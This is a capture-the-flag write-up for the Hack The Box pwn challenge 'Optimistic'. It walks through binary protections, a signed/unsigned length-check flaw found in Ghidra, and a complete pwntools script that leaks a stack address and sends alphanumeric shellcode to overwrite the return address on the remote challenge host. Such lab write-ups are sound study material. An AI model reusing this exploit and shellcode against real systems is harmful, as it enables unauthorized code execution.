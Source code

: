 ### Optimistic : HTB Challenges : Pwn

```
Refrences Used : PinkDraconian Video about this topic : https://www.youtube.com/watch?v=MVeRz2ZdSdk 
```
Here lets first try to analyze the security features and architecture of the binary.

```bash
$ checksec optimistic
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

```bash
$ file optimistic
optimistic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=24f4b065a2eab20657772e85de2af83b2f6fe8b1, for GNU/Linux 3.2.0, not stripped
```
Now lets analyze the binary in Ghidra and as this binary is not striped we can see function names and symbols loading it into Ghidra we see there are two made functions here :

![Ghidra Main Function](main.png)

![Ghidra Initialize Function](intialize.png)

and in the initialize function we have an alarm function which alarms us after 30 seconds and stops binary but for making our payload we can try patching this function to get the alarm after 255 seconds to give us a lot of time to work with.

By analyzing the main function in Ghidra we can see that its giving us a Stack address when we press y . and we can see that we are getting the Base Pointer address AND ALSO FURTHER analyzing the binary we see that there is unsigned integer value initialized which is then casted into an integer and compared to the bytes and due to how unsigned and signed integers work we get an integer buffer overflow if we replace that unsigned integer value as -1 which is not in the scope of an unsigned integer and goes to the max value in the unsigned integer which then when casted into integers would convert back to -1 as 255 bytes which is the most for an unsigned integer does not exist in signed integers causing this issue and allowing us to basically conduct or do a stack overflow here.


```python
from pwn import *

def main():
    context(os='linux', arch='amd64')
    # io = process('./optimistic_patched')
    io = remote('139.59.169.46', 30872)
    # First Step is to ennumerate
    padding = 104
    stack_offset = -96   
    # get stack address

    io.sendlineafter(': ', 'y')
    stack_address = io.recvline().decode().strip().split()[-1][2:]
    stack_address = bytes.fromhex(stack_address).rjust(8, b'\x00')
    stack_address = u64(stack_address, endian='big') # To make it easier to work with it with addition to the address and so on
    stack_address += stack_offset
    log.success(f'Gottem: {p64(stack_address)}' )

    # Stack Address calculation :
    # We leaked a stack address but we wanna know its location in relation to the Buffer where we can overflow how many bytes is its difference
    # We would have to jump back 96 bytes to get back to stack as char local_68 in main function is 96 and we gotta jump back to behind that and start of stack

    # Step 2 : Do Buffer Overflow
    io.sendlineafter('Email: ', 'ab')
    io.sendlineafter('Age: ', 'ab')
    io.sendlineafter('Length of name: ', '-1')
    # Alpha Numeric Characters are only allowed in this shellcode
    shellcode = b"XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V"
    padding = b'a'* (padding - len(shellcode))
    payload = shellcode + padding + p64(stack_address)   
    io.sendlineafter('Name: ', payload)
    io.interactive()

main()
```
